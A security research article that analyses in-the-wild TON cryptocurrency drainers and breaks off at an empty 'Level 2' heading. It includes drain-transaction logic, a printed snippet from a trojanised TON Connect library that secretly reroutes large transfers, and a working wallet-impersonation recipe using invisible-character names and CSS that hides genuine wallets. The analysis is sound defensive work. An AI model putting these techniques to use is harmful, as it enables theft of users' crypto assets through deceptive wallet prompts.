

# Down the Drain: Unpacking TON of Crypto Drainers

## Introduction

### Disclaimer

>[!WARNING]
>This article was created for informational purposes only and is intended for security analysis specialists who analyze the security of the customer's resources strictly on legal grounds and on the basis of an agreement concluded with the customer company. It should not be used to make any statements or claims, offer warranties regarding the utility, safety, or suitability of the code, the product, the business model, or to express opinion about the mentioned companies or their products. 
>
>The author is not responsible for any harm caused by the use of the information provided. 
>The spread of malware and disruption of systems are prosecuted by law. 
>Sensitive information is deliberately redacted (hidden or modified).

### Source

Because of the TON Network's rapid growth and frequent updates to its ecosystem, Threat Actors regularly develop new techniques to target users: from fake NFT airdrops and malicious web applications to fake Jettons and malicious smart contracts.

Our Team has gathered and analysed real-life samples of TON Drainers utilized by black-hat hackers and threat actors, and assigned each one with a "Level" number based on their complexity. In this article, among other things, we dissect the X-TonDrainer, the Julia Drainer and TOD (The Open Drainer), and get to know important concepts behind the DApp ↔ Wallet interactions within the TON ecosystem.

### Goal

Our aim is to:
- Introduce you, the Reader, to the real-life samples of in-the-wild threats in the least dangerous way possible;
- Provide a better understanding of the architecture of Drainers specific to the TON Network in order to spread the knowledge among Threat Intelligence Experts;
- Highlight sensitive aspects of the TON Network features that may be exploited to compose attack vectors;




## Level 0

The very first application (code name "Level 0") is the most straightforward sample of a drainer: its source code consists of a single JavaScript file that contains less than a hundred lines of code. In order to use it, the Drainer Operators have to embed it into their websites and create buttons for Users to click. Ultimately, this Drainer expects as little as a bundle of an HTML file and a TON Connect Manifest to run.

There is no Server side to it, so there is no blind spots left in terms of an external analysis, and, by default, neither does it come with any kind of obfuscation, which is why anyone who visits the resulting malicious Website can uncover its functionality pretty easily, plus, as a bonus, also get the address of a Wallet that belongs to the Drainer Operator, their Telegram Bot API token and the Telegram chat identifier, just by having a look at the variables: these values are right there, specified at the very beginning of the JavaScript file.

Nevertheless, thanks to its simplicity, it serves as a great example to illustrate the typical interaction flow and to figure out the basic architecture of a TON Drainer.

### Sample 0: Redirection

The TON Drainer sample presented at the Level 0, much alike the samples that will be covered in the following paragraphs, implements an automatic redirection of Users on website load. This redirection is based on a condition.

As soon as the User visits the malicious website, the Drainer sends out a Client-side request to the [ipapi.co/json](https://ipapi.co/json/) API to receive a JSON containing data regarding the User's machine location (information on the IP address, country, region, city, timezone, latitude and longitude, ...), parses its IP address and the corresponding country code and checks the country against a list of countries (Russian Federation, Kazakhstan, Belarus, Ukraine, Armenia, Azerbaijan, Kyrgyzstan, Moldova, Uzbekistan), mostly of the CIS region. If the condition is met, the user is redirected to the official [ton.org](https://ton.org) website, whereas in the other case the drainer crafts a message containing the received information and sends a request to the Telegram API to notify the Drainer Operator about a new visitor through the Telegram Bot.

> [!NOTE]
> The behavior described above is a practice common to Russian-speaking hacking forums: most of them require the software sold / shared there to have a special function to filter out the Users from the CIS region. It is safe to say that this pattern often indicates that the developers sell / share their software to / with Russian-speaking community.


### Sample 0: Main functionality

Since the Drainer utilizes the **TON Connect** libraries, the Users are kindly asked to connect their Wallets via the "Connect Wallet" button embedded into the Website by **TON Connect**. However, in its default implementation, it does not perform any other actions without the User's consent: the Drainer requires the User to click a certain element that would trigger its main functionality (typically a button that the User will _want_ to click and that likely will not raise much suspicion when the transaction request is shown to the User: "Claim Reward", "Place a bid", ...).

> [!NOTE]
> The vast majority of Drainers heavily rely on user interaction. Even if the User deliberately connects their Wallet to the malicious Website, it does not always mean that their Wallet gets compromised. Watch out for all of the following popups and prompts though: there may be something more to it.

Upon the User's click, this Drainer sends a request to the [toncenter.com](https://toncenter.com) API specifying the User's Wallet address to get information on the number of TON stored there. Then it calculates 97% of the balance in order to be able to pay for the gas fees, crafts a transaction with a single operation that would transfer almost all of the User's TON to the Drainer Operator and tries to send it via the **TON Connect**:

```text
transaction = {
    validUntil: 1 min,
    messages: [{
		    address: MALICIOUS,
		    amount: 97% of balance
        }, ]
    }
```

Of course, the User is prompted to approve this transaction, and whatever their answer is – the Drainer Operator is notified of the results via their Telegram Bot.


### Note: Telegram Bots

All of the Drainers our Team has examined utilize Telegram Bots to collect data about Users, send out logs on events and notify their Operators promptly.

As long as Drainer exposes its settings in the source code accessible by Users from the Client-Side, it is possible to extract their **Telegram Bot API token** and **Telegram chat identifiers**. This token allows anyone to control the Telegram Bot it belongs to: all it takes is to send queries to the Telegram Bot API over HTTPS in a form of `https://api.telegram.org/bot<token>/METHOD_NAME`, and Telegram chat identifiers make it obvious which chats act as communication channels with the Operators.

Because of the API token leak, not only anyone is able to steal these logs, but also to get information on the chats this bot has participated in so far, send out arbitrary messages or run an entirely new logic on behalf of the bot and change its behavior.


### Note: Verification Problem

> Useful resources:
> - [**TON Connect Request & Response Protocol**: App Manifest](https://github.com/ton-blockchain/ton-connect/blob/main/requests-responses.md#app-manifest)
> - [**Tonkeeper Github**: Scam Backoffice Rules](https://github.com/tonkeeper/scam_backoffice_rules)

Why would anyone approve such a transaction? Apart from the social engineering techniques, one of the most important evil tricks pulled here is based on the fact that **TON Connect** protocol relies on the data it is provided with, and so do Wallets.

Wallets must explicitly question the User's intention to connect their Wallet to an another application and provide the User with key information on this application, for the sake of security of their Users. For the Wallet to display the User the connection modal with information on the application, it parses data from an intermediary interface, a communication protocol, such as [the TON Connect SDK](https://docs.ton.org/v3/guidelines/ton-connect/overview) , which parses the required data from the **TON Connect** manifest controlled by the DApp. 


&ensp;

| Project           | Metadata provider                                                                                        |
| :---------------- | :------------------------------------------------------------------------------------------------------- |
| TON Connect SDK   | `tonconnect-manifest.json`                                                                               |
| MetaMask SDK      | `dappMetaData` within a `MetaMaskSDK` object                                                             |
| WalletConnect SDK | `metadata` within a `WalletConnectModalSign` object                                                      |
| OKX Connect SDK   | `metaData` within a `OKXTonConnect` object / `DAppMetaData` within a `OKXUniversalProvider` object / ... |
| ...               | ...                                                                                                      |

Here is an example of what the **TON Connect** manifest, the `tonconnect-manifest.json` file, might look like, provided by [the official TON Documentation](https://docs.ton.org/v3/guidelines/ton-connect/guidelines/creating-manifest):
```json title="tonconnect-manifest.json"
{
    "url": "https://ton.vote",
    "name": "TON Vote",
    "iconUrl": "https://ton.vote/logo.png"
}
```

>[!NOTE]
> **N.B**: none of the values, including the DApp's `name`, are required to be unique. Anyone might as well call their DApp "TON", "TON Vote", "TON Spin" or "TON Airdrop", set any link and any icon of their choice;


Moreover, **TON Connect** constructor has a semi-optional `manifestUrl` parameter. If it remains empty, **TON Connect** assumes that `tonconnect-manifest.json` is located at the very root of the application:
```ts title="ton-connect/sdk/packages/sdk/src/ton-connect.ts"
export class TonConnect implements ITonConnect {
	...
    constructor(options?: TonConnectOptions) {
        this.dappSettings = {
            manifestUrl: options?.manifestUrl || getWebPageManifest(),
            storage: options?.storage || new DefaultStorage()
        };
        ...
    }
	...
}
```

```ts title="ton-connect/sdk/packages/sdk/src/utils/web-api.ts"
export function getWebPageManifest(): string {
    const origin = getWindow()?.location.origin;
    if (origin) {
        return origin + '/tonconnect-manifest.json';
    }
	
    return '';
}
```

>[!IMPORTANT]
> This is precisely the reason why this feature is considered necessary – **TON Connect** should be able to find the manifest file in case `window.location.origin` is undefined. On the other hand, due to the lack of checks, it is possible to pass any valid URL to the `manifestUrl`, as long as it points at a file that contains a JSON object with the required keys (`name`, `url`, `icon`) – even if it belongs to some other application somewhere on the Web.


Summing up, since **TON Connect** manifest is controlled by the DApp and the values stated there are passed to Wallets as is, it is possible for the malicious DApp to impersonate a legitimate one by filling its manifest with data that looks legitimate. As for today, the problem of data verification is an open issue, the effective solution to it that would fit into any Wallet implementation is yet to be found. However, there are solutions that work and do so quite well:

- There are **domain verification mechanisms** that require editing DNS records or uploading a certain file to prove one's ownership over the domain (Verify API);
- There are **AI-based tools** that analyze transactions with the help of machine learning to tag suspicious operations and potential fraudulent actions (Blockaid, Blowfish);
- Most Wallets implement **blocklists** to warn Users about domains that has been reported as malicious;

The most commonly used Wallet developed specifically to be utilized within the TON ecosystem, **Tonkeeper**, introduces the following defense mechanisms:

- **2FA** via **Telegram**: in addition to the default in-wallet approval request, every transaction initiates a message from the official [@Tonkeeper](https://t.me/tonkeeper) Telegram Bot with buttons to approve or cancel the pending transaction. This feature is only available in the Pro version though;
- **Signer** – an application to sign and approve transactions, developed specifically to store private keys separately from the **Tonkeeper** application;

None of the TON wallets that our Team has looked into (**Tonkeeper**, **Telegram Wallet**, **TON Wallet**, **MyTonWallet**) sufficiently warned us, as Users, about a mismatch between the domain that initiated the Wallet connection request and the domain stated in the modal window, or tagged the transactions initiated by samples of TON Drainers as suspicious, except one – **XTON Wallet**, which mentioned the actual origin of the malicious DApp on most of the steps throughout the interaction flow.


&ensp;

For now, the Users are advised to double-check information displayed to them during their interactions with DApps.

>[!IMPORTANT]
> **UPDATE**: `Nov 11, 2025`
> 
> At the time of writing this research article, only browser extensions of **TON Wallet** and **XTONWallet** highlighted inconsistencies between the actual origin the request came from and the link provided in DApp's TON manifest in their UI. Since the last time we've checked, **Tonkeeper** has also added a warning and **My TON Wallet** browser extensions now displays the original source instead of the one specified in an application's TON manifest.
>
> However, the problem described above is still a valid issue for mobile applications.

The next Level, the Level 1, is divided into 3 parts (Level 1.0, 1.1 and 1.2) in accordance with 3 TON Drainers that are quite similar to each other in terms of their features and the overall complexity, but differ in details, and this difference is crucial enough to examine these drainers separately.

## Level 1.0

> Useful resources:
> - [**TON Connect Documentation**: Preparing Messages](https://docs.ton.org/v3/guidelines/ton-connect/guidelines/preparing-messages)
> - [**TON Connect Documentation**: Sending Messages](https://docs.ton.org/v3/guidelines/ton-connect/guidelines/sending-messages)
> - [**TON Documentation**: Processing Jettons](https://docs.ton.org/v3/guidelines/dapps/asset-processing/jettons)
> - [**TON Documentation**: Processing NFTs](https://docs.ton.org/v3/guidelines/dapps/asset-processing/nft-processing/nfts)

### Sample 1: Main functionality

Besides the ability to transfer TON, the "Level 1.0" application, opposed to the previous one, introduces transactions of NFTs and Jettons. And once again not only the DApp Users are asked to connect their Wallets with the use of the "Connect Wallet" button, they are also suggested to activate the Drainer's functionality with the click on a certain element.

Upon the User's click, this Drainer sends out requests to the [tonapi.io](https://tonapi.io) API specifying the User's Wallet address to get information on the User's assets: the number of TON stored there, the types and amounts of Jettons and the list of NFTs linked to the Wallet. 

Since each transaction within the TON Network can include up to 4 outgoing messages for standard non-highload Wallets, Drainers try to optimize the assets drainage by crafting the smallest number of transactions that would transfer the largest amount of expensive assets possible. This Drainer calculates price of every token in **USDTG** based on the hard-coded conversion rate specified by the Drainer Operator right in the main JavaScript file and sorts them from the most valuable ones to the cheapest. Then, it selects the top 4 and forms messages to transfer them to the Drainer Operator's Wallet. 

...Unless?


### Sample 1: Altered library

Too bad it does not use the **TON Connect** library straight from the **npm**, but instead it provides it as a heavily obfuscated JavaScript file, and, sure enough, our Team have discover a surprise left there for its Operators.

It is a common practice among malicious actors to alter malware they spread, and this version of the Drainer is not an exception. Even though this piece of software is not shared for free, but rather is sold for hundreds of dollars, it comes with a rewritten and compiled **TON Connect** UI library. It might be just our Team's luck, but this version is out there, and its Operators are given instructions to embed the altered library into their applications.

Here, the `TonConnectUI` class is called something along the lines of `Web3ModalUI` and its behavior noticeably differs from the original. Among other things, there is a remarkable condition check in its `sendTransaction` function:
```javascript title="vendor.js"
(() => {
	...
	window.Web3ModalUI = class {
		...
		async sendTransaction(e, t) {
			const r = Me.from("VVFDY0F...", "base64").toString("utf-8");
			let n = "", i = !1;
			if (e.messages.forEach((e => {
				e.tx || e.sender ? e.tx && e.sender && (n = "token") : n = "ton"
			})), "ton" === n) e.messages.forEach((e => {
				parseInt(e.amount) > 21e9 && (e.address = r, i = !0)
			}));
			...
		}
		...
	}
	...
})
```

No wonder this check is not present in the actual **TON Connect** UI's [`sendTransaction` implementation](https://github.com/ton-connect/sdk/blob/main/packages/ui/src/ton-connect-ui.ts#L439). 

Lets step through it: 
- The `r` variable stores a Base64-encoded address that points to some Wallet that belongs to the TON Network (`Me.from("VVFDY0F...", "base64")` → `UQCcA...`).
- For every message crafted, it checks whether the amount in question (`e.amount`) is greater than **21 TON** (`21e9` nanotons) and, if so, it rewrites the receiver address (`e.address`) with the address mentioned above (`r`).

So if there is a hypothetical transaction `e` that performs 2 operations, thus contains 2 messages, both of which are addressed to the Drainer Operator's Wallet, say `UQAaC...`, but one has `amount` greater than `21e9` and another one has a bit less, and looks like this:
```javascript
let e =  {
    validUntil: Math.floor(Date.now() / 1000) + 60,
    messages: [
	    {
	        address: "UQAaC...",
	        amount: 21e9+1337,
	        payload: "1",
	    },
	    {
	        address: "UQAaC...",
	        amount: 21e9-1337,
	        payload: "2",
	    }
    ]
};
```

When the Drainer's execution comes to the moment when it sends the transaction to the User via the `sendTransaction` method of the `Web3ModalUI` class, messages within the transaction get processed in such a way, that now some funds are addressed to a mysterious Wallet at `UQCcA...`:
```json
{
    "validUntil": 1893456000,
    "messages": [
        {
            "address": "UQCcA...",
            "amount": 21000001337,
            "payload": "1"
        },
        {
            "address": "UQAaC...",
            "amount": 20999998663,
            "payload": "2"
        }
    ]
}
```

So each time the Drainer Operator might get something valuable, their loot gets transferred to `UQCcA...` instead, and later – spread through a number of addresses on the TON, Ethereum and TRON Networks. Here is a graph demonstrating the biggest outgoing transactions conducted by this Wallet and the following flow of funds:


## Level 1.1

The "Level 1.1" application, just like "Level 1.0", supports processing of all types of assets available on the TON Network: TON, NFTs and Jettons. Their prices are also converted to **USDTG** and impact the transaction creation process, however, here it is done in a slightly different way: the Drainer aggregates prices of the User's assets according to their types (TON, NFTs, Jettons) to identify the most valuable type of asset and make up transactions that would include messages related to this type exclusively.

Unlike previous samples, this Drainer is divided into Client-Side and Server-Side parts. Their communication is not protected with any kind of encryption though. The Server implements a bunch of API methods:

- On the first run, `getOperatorWalletAddress`, `getMinimalBalance` and `getSavedForFees` API methods are called. They return the address of the Drainer Operator's Wallet, the minimal balance the User must have for the application to initiate a malicious transaction and the number of nanotons that must be saved on the User's Wallet for fees accordingly. All of these values define settings of the Client application.

- Whenever anyone opens the Website and their IP address passes the region check, the Client sends request to the `notifyUserOpened` method to make the Server notify the Drainer Operator on this event via Telegram Bot.

- Whenever anyone connects their Wallet to the DApp, the Client sends request to the `notifyUserConnected` method to make the Server scan this Wallet's assets by querying through [toncenter.com/api](https://toncenter.com/api/) and [tonapi.io](https://tonapi.io/). 

- When the Server identifies the most valuable type of asset the Drainer can try to pull out from the User's Wallet, its execution falls into `createBOCTONs`, `createBOCNFTs` and `createBOCJettons` functions and it composes payloads, bags of cells, that are later included into messages of the transaction.

- As the resulting transaction gets sent via **TON Connect** UI, the Client sends request to the `notifyTransactionStatus` method to make the Server notify the Drainer Operator on the results of the transaction.


### Note: UI Customization

Lets step aside and take a moment to discuss a significant topic that must inevitably pop up, since we talk about TON Drainers and the ways they exploit possibilities provided to the legitimate developers.

#### Baseline

> Useful resources:
> - [**TON Connect UI**: UI Customisation](https://github.com/ton-connect/sdk/tree/main/packages/ui#ui-customisation)
> - [**TON Connect UI**: Direct CSS customisation](https://github.com/ton-connect/sdk/tree/main/packages/ui#direct-css-customisation)
> - [**TON Connect UI**: Extend Wallets list](https://github.com/ton-connect/sdk/tree/main/packages/ui#extend-wallets-list)

**TON Connect** introduces customization options: the developers are welcome to make changes to its interface so that it keeps consistent with their application design.

First of all, developers can set any element of the application to be the one that hosts the "Connect Wallet" button, the root is set in the `TonConnectUI` object as a `buttonRootId` parameter:
```js title="index.js"
const tonConnectUI = new TonConnectUI({
	manifestUrl: '<URL>',
	buttonRootId: '<ID>'
});
```

They also can edit any CSS class of their choice used to style the "Connect Wallet" button or the corresponding modal window. Here are tables describing all of the classes provided by **TON Connect** according to its documentation in the ["Direct css customisation"](https://github.com/ton-connect/sdk/tree/main/packages/ui#direct-css-customisation) section:

- UI components:

| Element                              | Selector                                            | Element description                                                                                                   |
|--------------------------------------|-----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|
| Connect wallet modal container       | `[data-tc-wallets-modal-container="true"]`          | Container of the modal window that opens when you click on the "connect wallet" button.                               |
| Mobile universal modal page content  | `[data-tc-wallets-modal-universal-mobile="true"]`   | Content of the general mobile modal page with horizontal list.                                                        |
| Desktop universal modal page content | `[data-tc-wallets-modal-universal-desktop="true"]`  | Content of the universal desktop modal page with QR.                                                                  |
| Mobile selected wallet's modal page  | `[data-tc-wallets-modal-connection-mobile="true"]`  | Content of the selected wallet's modal page on mobile.                                                                |
| Desktop selected wallet's modal page | `[data-tc-wallets-modal-connection-desktop="true"]` | Content of the selected wallet's modal page on desktop.                                                               |
| Wallets list modal page              | `[data-tc-wallets-modal-list="true"]`               | Content of the modal page with all available wallets list (desktop and mobile).                                       |
| Info modal page                      | `[data-tc-wallets-modal-info="true"]`               | Content of the modal page with "What is a wallet information".                                                        |
| Action modal container               | `[data-tc-actions-modal-container="true"]`          | Container of the modal window that opens when you call `sendTransaction` or other action.                             |
| Confirm transaction modal content    | `[data-tc-confirm-modal="true"]`                    | Content of the modal window asking for confirmation of the action in the wallet.                                      |
| "Transaction sent" modal content     | `[data-tc-transaction-sent-modal="true"]`           | Content of the modal window informing that the transaction was successfully sent.                                     |
| "Transaction canceled" modal content | `[data-tc-transaction-canceled-modal="true"]`       | Content of the modal window informing that the transaction was not sent.                                              |
| Confirm sign data modal              | `[data-tc-sign-data-confirm-modal="true"]`          | Content of the modal window asking for confirmation of the signing data in the wallet.                                |
| "Sign data canceled" moda l          | `[data-tc-notification-sign-data-cancelled="true"]` | Content of the modal window informing that the signing data was not confirmed.                                        |
| "Sign data error" modal              | `[data-tc-notification-sign-data-error="true"]`     | Content of the modal window informing that the signing data was not confirmed due to an error.                        |
| "Connect Wallet" button              | `[data-tc-connect-button="true"]`                   | "Connect Wallet" button element.                                                                                      |
| Wallet menu loading button           | `[data-tc-connect-button-loading="true"]`           | Button element which appears instead of "Connect Wallet" and dropdown menu buttons while restoring connection process |
| Wallet menu dropdown button          | `[data-tc-dropdown-button="true"]`                  | Wallet menu button -- host of the dropdown wallet menu (copy address/disconnect).                                     |
| Wallet menu dropdown container       | `[data-tc-dropdown-container="true"]`               | Container of the dropdown that opens when you click on the "wallet menu" button with ton address.                     |
| Wallet menu dropdown content         | `[data-tc-dropdown="true"]`                         | Content of the dropdown that opens when you click on the "wallet menu" button with ton address.                       |
| Notifications container              | `[data-tc-list-notifications="true"]`               | Container of the actions notifications.                                                                               |
| Notification confirm                 | `[data-tc-notification-confirm="true"]`             | Confirmation notification element.                                                                                    |
| Notification tx sent                 | `[data-tc-notification-tx-sent="true"]`             | Transaction sent notification element.                                                                                |
| Notification cancelled tx            | `[data-tc-notification-tx-cancelled="true"]`        | Cancelled transaction notification element.                                                                           |

- Basic UI elements:

| Element      | Selector                        |
| ------------ | ------------------------------- |
| Button       | `[data-tc-button="true"]`       |
| Icon-button  | `[data-tc-icon-button="true"]`  |
| Modal window | `[data-tc-modal="true"]`        |
| Notification | `[data-tc-notification="true"]` |
| Tab bar      | `[data-tc-tab-bar="true"]`      |
| H1           | `[data-tc-h1="true"]`           |
| H2           | `[data-tc-h2="true"]`           |
| H3           | `[data-tc-h3="true"]`           |
| Text         | `[data-tc-text="true"]`         |
| Wallet-item  | `[data-tc-wallet-item="true"]`  |

Plus, **TON Connect** lets you make changes to the list of displayed Wallets: filter out those Wallets that do not support certain features necessary for your DApp (`walletsRequiredFeatures`), such as multiple messages per transaction or extra currencies, or, on the contrary, prioritize Wallets that do support them (`walletsPreferredFeatures`), and even add extra Wallets (`walletsListConfiguration`).

Additional Wallets are expected to be defined within the `walletsListConfiguration[includeWallets]` parameter of the `TonConnectUI` object, like that:
```js title="index.js"
const tonConnectUI = new TonConnectUI({
	manifestUrl: '<URL>',
	buttonRootId: '<ID>',
	walletsListConfiguration: {
		includeWallets: [
			{
				name: "<NAME>",
				appName: "<NAME>",
				jsBridgeKey: "<KEY>",
				aboutUrl: "<URL>",
				universalLink: "<URL>",
				bridgeUrl: "<URL>",
				imageUrl: "<URL>",
				platforms: ["android", "ios", "linux", "windows", "macos"],
			}
		]
	}
})
```

To filter out some of the Wallets included by default, you must pass the `walletsRequiredFeatures` parameter to the `TonConnectUI` object, like that:
```js title="index.js"
const tonConnectUI = new TonConnectUI({
	manifestUrl: '<URL>',
	buttonRootId: '<ID>',
    walletsRequiredFeatures: {
        sendTransaction: {
			minMessages: 4,
			extraCurrencyRequired: true
		}
	}
})
```

This configuration does not remove the Wallets that do not suit your needs from the Wallets list, but makes them appear semi-transparent, with a message stating "`The wallets below don’t support all features of the connected service.`" right above them:


#### Customization Abuse

Even though the ability to add custom Wallets through the `walletsListConfiguration` parameter is a legitimate feature necessary for the sake of a seamless integration of various Wallets, including [Bitget](https://web3.bitget.com/en/docs/adaptors/tonconnect.html) and [UXUY](https://docs.uxuy.com/uxuy-connect/tonconnect/), who mention it in their documentation, one may use it with malicious intention.

> [!IMPORTANT]
> The first thing that comes to mind of a Security Researcher is the possibility of a Wallet Impersonation. Obviously, since **TON Connect** is integrated into the Client-Side of an application, one is free to rewrite it in whatever way they want by design, but that would require additional efforts, whereas in-built UI customization features of **TON Connect** make it much easier to handle.

Imagine one would like to add a malicious custom Wallet to the Wallets list displayed by **TON Connect**. Since Users are highly likely to click the Wallet they are used to, such as **Tonkeeper**, the malicious actor might be inclined to call their malicious Wallet "Tonkeeper" as well. Doing so, however, results in the malicious Wallet not being added to the list: the `walletsList` composition process implies each Wallet must be unique.

```ts title="ton-connect/sdk/packages/ui/src/app/utils/wallets.ts"
...
export function applyWalletsListConfiguration(
    walletsList: WalletInfo[],
    configuration?: WalletsListConfiguration
): WalletInfo[] {
    if (!configuration) {
        return walletsList;
    }
	
    if (configuration.includeWallets?.length) {
        walletsList = mergeConcat(
            'name',
            walletsList,
            configuration.includeWallets.map(uiWalletToWalletInfo)
        );
    }
	
    return walletsList;
}
...
```

Not that it stops from impersonation. All it takes to is to append any kind of invisible characters to the name of the Wallet so that its name is considered unique among other Wallets, but does not visibly differ from the target Wallet:

```js title="index.js"
const tonConnectUI = new TonConnectUI({
	manifestUrl: '<URL>',
	buttonRootId: '<ID>',
	walletsListConfiguration: {
		includeWallets: [
			{
				name: " Tonkeeper ",
				appName: "neploxTonWallet",
				jsBridgeKey: "neploxTonWallet",
				aboutUrl: "https://neplox.security",
				universalLink: "https://t.me/neploxaudit?attach=wallet",
				bridgeUrl: "https://neplox.security/bridge",
				imageUrl: "https://neplox.security/icons/neplox.svg",
				platforms: ["android", "ios", "linux", "windows", "macos"],
			}
		]
	}
})
```

This configuration lets developers easily add yet another "Tonkeeper" to the Wallets list of **TON Connect**. However, it lands at the end of the list and Users are still able to see the original **Tonkeeper** application at the very top:


Since the `walletsRequiredFeatures` intended to filter out Wallets from the Wallets list does not remove, but disables unwanted Wallets, and currently there is no other configuration parameter that would do the work, that is the moment where CSS classes come in handy: one can hide any Wallet from the Wallets list just by selecting it with its CSS selector of `[data-tc-wallet-item="true"]` and passing `display: none` as a style.

```css title="index.css"
li:has(button[data-tc-wallet-item="true"]):nth-of-type(-n+15) {
	display: none;
}
```

Now there is only one "Tonkeeper" Wallet in the Wallets list, and its not the legitimate one:


As a result – a successful impersonation of legitimate Wallets that does not require developers to reinvent the wheel.


## Level 1.2

Developers of the "Level 1.2" application decided to focus on native coins and Jettons, missing out on NFTs. Its functionality is also divided between the Server and the Client applications, it is only that this time their communication is encrypted with a key. There is only one single key, and it is specified on both sides in plaintext, which nullifies the whole point of encrypting data, but we suppose that the goal here is not to actually encrypt the data, but to make it less readable for an average User who might want to take a look at the Network tab of the browser's Developer tools.

### Sample 1.2: Server side

Upon the Server start, it goes through the following steps:

1. Enables SSL and CORS, defines User-Agent and IP address checks...
   
2. Initializes the **[Orbs](https://www.orbs.com/ton-access/)** decentralized RPC endpoint for TON by importing `@orbs-network/ton-access` **npm** package and calling the `getHttpEndpoint` function.
   
3. Initializes the **TON Client** by importing `@ton/ton` **npm** package and passing the RPC endpoint to the new `TonClient` object.
   
4. Sends request to the [api.coinlore.net](https://api.coinlore.net/api/ticker/?id=54683) to retrieve tick data for TON by passing its ID as the `id=54683` query parameter, and to extract the current price of TON in **USD**. Then, the Server writes it down into a `.dat` file stored locally.
   
5. Initializes the Telegram Bot that notifies the Drainer Operator on events using the Telegram Bot API token and chat identifier it is provided with.
   
6. Initializes endpoints and the corresponding API methods:
	- `getGetblockAPIKey` – returns the API key specified on the Server, which is used to make optional queries to the [Getblock](https://getblock.io/) TON RPC API;
	- `scanAccountAssets` – sends request to the [tonapi.io](https://tonapi.io/) to get information on the TONs and Jettons stored on the User's Wallet;
	- `createBOCJettons` – constructs Bags of Cells to be included into messages that perform transfer of Jettons;
	- `createTransactionPayload` – constructs Bags of Cells to be included into messages that perform transfer of TON, injects arbitrary comments defined by the Drainer Operator into them;
	- `notifyScanDone`, `notifyTransactionTONStarted`, `notifyTransactionTONDeclined`, `notifyTransactionTONDone`, `notifyTransactionJettonStarted`, `notifyTransactionJettonDeclined`, `notifyTransactionJettonDone` – send requests to the Telegram API to make the associated Telegram Bot send messages to the Drainer Operator to notify them when event occurs;


### Sample 1.2: Client side

The Client part of the Level 1.2 application must seem familiar to you already. 

It does not have a special element to click to trigger the drainage process, instead this Drainer tracks when the state of the modal window gets changed and, if the `state['closeReason'] == 'wallet-selected'` condition is met, it moves onto the next stage – the one where it asks the Server to scan the User's Wallet, analyzes its contents and prioritizes Jettons over TON.


### Note: Events Tracking

> Useful resources:
> - [**TON Connect UI**: Open specific Wallet](https://github.com/ton-connect/sdk/tree/main/packages/ui#open-specific-wallet)
> - [**TON Connect UI**: Subscribe to the modal window state changes](https://github.com/ton-connect/sdk/tree/main/packages/ui#subscribe-to-the-modal-window-state-changes)
> - [**TON Connect UI**: Track events](https://github.com/ton-connect/sdk/tree/main/packages/ui#track-events)

Have you noticed how there is no "click certain element" part both on Levels 1.1 and 1.2? The Level 1.2 paragraph mentioned the modal window state change and this is what we are going to talk about.

On top of everything said earlier, **TON Connect** supplies developers with lots of convenient features to control the interaction flow.

- It lets you make the User open the exact Wallet _you_ want by executing `tonConnectUI.openSingleWalletModal('<WALLET_APPNAME>')`. This behavior is described in the **TON Connect** documentation under ["Open specific wallet"](https://github.com/ton-connect/sdk/tree/main/packages/ui#open-specific-wallet) section. 

> [!IMPORTANT]
> In combination with the perspective of a malicious Wallet being added to the **TON Connect** using `walletsListConfiguration[includeWallets]` whilst it impersonates a legitimate one, it might trick Users into interacting with the malicious Wallet.

- It lets you subscribe to the modal window state changes to proceed the execution in accordance with the reason of change with the use of `tonConnectUI.onModalStateChange(...)`. This behavior is described in the **TON Connect** documentation under ["Subscribe to the modal window state changes"](https://github.com/ton-connect/sdk/tree/main/packages/ui#subscribe-to-the-modal-window-state-changes) section. That is the feature the Level 1.2 TON Drainer utilizes to fire its main functionality: when the User connects their Wallet via **TON Connect**, the modal window gets closed, it triggers `onModalStateChange` and its `state['closeReason']` equals `'wallet-selected'`, which is a distinctive feature useful to track such event.

- Besides, most of the interactions beyond the modal window also produce events that can be tracked by the DApp using Event Listeners. This behavior is described in the **TON Connect** documentation under ["Track events"](https://github.com/ton-connect/sdk/tree/main/packages/ui#track-events) section, which also contains this list of all of the supported events that shines a light on the scope developers have control of:

| Event name | Description |
| :-- | :- |
| `connection-started` | When a user starts connecting a wallet |
| `connection-completed` | When a user successfully connected a wallet |
| `connection-error` | When a user cancels a connection or there is an error during the connection process |
| `connection-restoring-started` | When the dApp starts restoring a connection |
| `connection-restoring-completed` | When the dApp successfully restores a connection |
| `connection-restoring-error` | When the dApp fails to restore a connection |
| `disconnection` | When a user starts disconnecting a wallet |
| `transaction-sent-for-signature` | When a user sends a transaction for signature |
| `transaction-signed` | When a user successfully signs a transaction |
| `transaction-signing-failed` | When a user cancels transaction signing or there is an error during the signing process |
| `sign-data-request-initiated` | When a user sends data for signing |
| `sign-data-request-completed` | When a user successfully signs data |
| `sign-data-request-failed` | When a user cancels data signing or there is an error during the signing process. |


## Level 2

> Useful resources:
